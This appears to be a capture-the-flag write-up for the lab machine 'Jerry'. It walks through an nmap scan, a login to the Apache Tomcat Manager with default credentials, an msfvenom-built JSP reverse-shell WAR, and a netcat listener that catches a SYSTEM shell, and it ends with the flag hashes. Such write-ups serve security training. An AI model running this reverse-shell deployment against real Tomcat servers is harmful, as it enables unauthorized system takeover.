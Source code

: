 ```yaml
---
layout: post
title: Jerry
tags: [OSCP, Writeup, Windows, Arbitrary File Upload, Web, File Misconfiguration]
description: "Jerry write-up"
---
```


![Jerry logo](/assets/imgs/jerry/jerry.png)

### This is an easy windows box

## Tools used

------

- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA jerry 10.10.10.95 -v -Pn

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Here’s what nmap teaches us :

- port 8080 (HTTP) - Apache Tomcat 7.0.88

There is only one port open and it's a web port, let's check it :

![Tomcat interface](/assets/imgs/jerry/tomcat_interface.PNG)

## Exploit

------

Click "Manager App", try default credentials :

tomcat:s3cret

![Tomcat connected](/assets/imgs/jerry/connected.PNG)

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f war > shell.war
Payload size: 1093 bytes
Final size of war file: 1093 bytes
```

Upload the war file :

![War deploy](/assets/imgs/jerry/war_deploy.PNG)

Start a nc listener :

```
nc -lvp 1234
```

Click on the '/shell' button, I'm redirected to this URL :

```
http://10.10.10.95:8080/shell/
```

Go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

And I'm already nt authority\system ! Now go read the flags, there both on the administrator desktop in one file :

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,649,088 bytes free
```

## Flags

------

### User.txt

```
7004dbcef0f854e0fb401875f26ebd00
```

### Root.txt

```
04a8b36e1545a455393d067e772fe90e
```